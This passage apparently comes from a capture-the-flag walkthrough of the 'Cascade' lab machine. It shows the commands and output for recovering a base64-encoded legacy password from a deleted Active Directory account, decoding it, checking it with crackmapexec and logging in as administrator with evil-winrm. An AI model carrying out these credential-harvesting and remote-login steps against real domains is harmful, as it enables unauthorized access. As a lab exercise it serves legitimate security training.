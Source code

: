 ```
--OR--
Get-ADObject -SearchBase 'CN=Deleted Objects, DC=cascade, DC=local' -Filter {ObjectClass -eq 'user'} -IncludeDeletedObjects -Properties * | findstr /i pwd

---RELEVANT-OUTPUT---
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
```

- We attempt to check id credentials work with admin:
	```bash
crackmapexec winrm 10.10.10.182 -u 'administrator' -p 'YmFDVDNyMWFOMDBkbGVz'
# Also tried (not hit)
# crackmapexec smb 10.10.10.182 -u 'administrator' -p 'YmFDVDNyMWFOMDBkbGVz'

---OUTPUT---
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\administrator:YmFDVDNyMWFOMDBkbGVz
```
	- It fails..maybe it is encrypted again
- We try to decrypt with base64:
	```bash
echo YmFDVDNyMWFOMDBkbGVz | base64 -d

---OUTPUT---
baCT3r1aN00dles
```
	- we get some readable credentials
- We try it with these credentials.
	```bash
crackmapexec winrm 10.10.10.182 -u 'administrator' -p 'baCT3r1aN00dles'

---OUTPUT---
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles (Pwn3d!)
```
	- We get a hit!
- We login to target as administrator:
	```bash
evil-winrm -u 'administrator' -p 'baCT3r1aN00dles' -i 10.10.10.182

---OUTPUT---
```